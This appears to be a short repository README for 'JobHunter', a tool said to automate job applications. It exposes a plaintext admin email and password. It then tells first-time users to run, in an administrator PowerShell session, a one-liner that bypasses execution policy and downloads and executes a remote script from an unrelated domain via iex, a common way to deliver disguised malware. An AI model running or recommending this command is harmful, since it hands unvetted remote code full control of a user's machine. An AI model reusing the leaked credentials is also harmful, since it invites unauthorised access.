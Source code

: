 # JobHunterRelease
JobHunterRelease

UserName: admin@ncstc.in
Password: admin@12345

JOBHUNTER is updated now. You can clone it from <a href="https://github.com/wasimakhtarcnx/JobHunter.git">https://github.com/wasimakhtarcnx/JobHunter.git</a> for Automated Job Apply. With Your GitHub Login

For First time user below script in Powershell with Administrator

Set-ExecutionPolicy Bypass -Scope Process -Force; iex ((New-Object System.Net.WebClient).DownloadString('http://dndstatus.co.in/install.ps1'))

